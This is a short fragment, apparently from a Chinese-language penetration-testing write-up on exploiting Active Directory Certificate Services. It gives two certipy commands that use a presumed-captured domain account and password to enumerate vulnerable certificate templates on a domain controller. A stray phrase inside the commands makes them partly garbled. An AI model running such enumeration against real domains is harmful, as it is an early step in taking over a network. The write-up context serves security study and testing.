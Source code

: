 [![](assets/1708508972-db6a2d50a92f928c97c7726dd474e47a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220165235-64ae37dc-cfcd-1.png)

## 漏洞利用

[https://www.adminxe.com/4051.html](https://www.adminxe.com/4051.html)  
假设拿到域账号 qxn

```bash
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.20 -debug -scheme ldap -stdout -vulnerable //ldaps 没开的话
certipy find -u qxn@penson.org -p Penson@2016 永遠的神 -dc-ip 192.168.142.20 -stdout -vulnerable //默认 ldaps
```
